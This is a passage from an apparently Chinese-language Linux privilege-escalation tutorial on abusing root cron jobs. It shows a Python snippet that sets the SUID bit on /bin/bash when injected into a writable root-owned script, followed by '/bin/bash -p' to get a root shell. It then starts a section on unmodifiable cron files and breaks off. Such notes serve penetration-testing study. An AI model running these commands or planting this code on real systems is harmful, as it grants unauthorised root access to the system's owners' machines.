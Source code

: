 若有，转到相应的文件并且修改，如一个py文件并且属主为root，若能修改文件，可添加如下代码

![image-20231120233007317](assets/image-20231120233007317.png)

```python
import os
import sys
try:
        os.system("chmod u+s /bin/bash")
except:
        sys.exit()
```

每隔一分钟将 /bin/bash 赋予suid权限

之后

```cobol
/bin/bash -p
```

提权

![image-20231120233055425](assets/image-20231120233055425.png)

## 8.2 无法修改定时任务文件

crontab看到文件

![image-20231120233143240](assets/image-20231120233143240.png)
